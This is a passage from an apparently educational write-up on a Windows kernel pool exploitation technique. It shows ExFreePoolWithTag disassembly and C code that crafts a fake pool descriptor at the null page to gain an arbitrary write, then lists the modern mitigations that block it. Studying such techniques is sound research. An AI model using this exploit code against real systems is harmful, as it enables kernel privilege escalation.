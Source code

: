 Later, if *ExpNumberOfNonPagedPools* equals 1, the correct pool descriptor will directly be taken from *nt!PoolVector[0]*. The PoolIndex is not used. 

```text
ExFreePoolWithTag(x,x)+5C8  loc_518064:
ExFreePoolWithTag(x,x)+5C8  mov     eax, [esp+58h+watchMe]
ExFreePoolWithTag(x,x)+5CC  mov     edx, _PoolVector[eax*4]
ExFreePoolWithTag(x,x)+5D3  mov     [esp+58h+var_48], edx
ExFreePoolWithTag(x,x)+5D7  mov     edx, [esp+58h+var_40]
ExFreePoolWithTag(x,x)+5DB  and     edx, 20h
ExFreePoolWithTag(x,x)+5DE  mov     [esp+58h+var_20], edx
ExFreePoolWithTag(x,x)+5E2  jz      short loc_5180B6


ExFreePoolWithTag(x,x)+5E8  loc_518084:
ExFreePoolWithTag(x,x)+5E8  cmp     _ExpNumberOfNonPagedPools, 1
ExFreePoolWithTag(x,x)+5EF  jbe     short loc_5180CB

ExFreePoolWithTag(x,x)+5F1  movzx   eax, word ptr [edi]
ExFreePoolWithTag(x,x)+5F4  shr     eax, 9
ExFreePoolWithTag(x,x)+5F7  mov     eax, _ExpNonPagedPoolDescriptor[eax*4]
ExFreePoolWithTag(x,x)+5FE  jmp     short loc_5180C7
```

Therefore, you have to make the pool manager believe that the chunk is located in paged memory. 

##Crafting a fake pool descriptor 

As we want a fake pool descriptor at null address. We just allocate this page and put a fake deferred free list and a fake ListHeads.

When freeing a chunk, if the deferred freelist contains at least 0x20 entries, *ExFreePoolWithTag* is going to actually free those chunks and put them on the appropriate entries of the *ListHeads*. 

```text

*(PCHAR*)0x100 = (PCHAR)0x1208; 
*(PCHAR*)0x104 = (PCHAR)0x20;
for (i = 0x140; i < 0x1140; i += 8) {
    *(PCHAR*)i = (PCHAR)WriteAddress-4;
}
*(PINT)0x1200 = (INT)0x060c0a00;
*(PINT)0x1204 = (INT)0x6f6f6f6f;
*(PCHAR*)0x1208 = (PCHAR)0x0;
*(PINT)0x1260 = (INT)0x060c0a0c;
*(PINT)0x1264 = (INT)0x6f6f6f6f;
```

##Notes

It is interesting to note that this attack would not work with modern mitigations. Here are a few reasons : 

  * Validation of the *PoolIndex* field
  * Prevention of the null page allocation
  * *NonPagedPoolNX* has been introduced with Windows 8 and should be used instead of the *NonPagedPool* type. 
  * SMAP would prevent access to userland data
  * SMEP would prevent execution of userland code 
